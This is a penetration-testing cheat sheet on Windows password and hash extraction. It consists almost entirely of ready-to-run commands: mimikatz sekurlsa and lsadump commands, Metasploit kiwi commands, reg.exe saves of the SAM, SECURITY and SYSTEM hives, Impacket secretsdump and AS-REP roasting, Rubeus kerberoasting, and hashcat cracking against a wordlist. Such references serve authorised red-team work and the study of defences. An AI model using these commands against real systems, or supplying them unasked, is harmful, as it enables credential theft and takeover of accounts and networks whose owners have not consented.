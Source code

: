 # Password Extraction

### mimikatz

Need to match architecture

```
privilege::debug
20 ‘OK’

sekurlsa::logonPasswords
lsadump::sam
lsadump::lsa /patch
lsadump::secrets
kerberos::list

mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
```

### Metasploit

```
load kiwi

creds_all
lsa_dump_lsa
lsa_dump_secrets
kerberos_list
```

### Impacket

Get a copy of the SYSTEM, SECURITY and SAM hives and download them back to your local system.

```
C:> reg.exe save hklm\sam c:\windows\temp\sam.save
C:> reg.exe save hklm\security c:\windows\temp\security.save
C:> reg.exe save hklm\system c:\windows\temp\system.save

$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

impacket-secretsdump backup@spookysec.local # requires password for user
impacket-secretsdump Administrator@10.11.1.1 -hashes 'NTLM:NTLM'
impacket-GetNPUsers spookysec.local/ -usersfile usernames.txt -format hashcat # Requires "Does not require Pre-Authentication" be set
```

### Rubeus

```
.\Rubeus.exe kerberoast
hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force
```
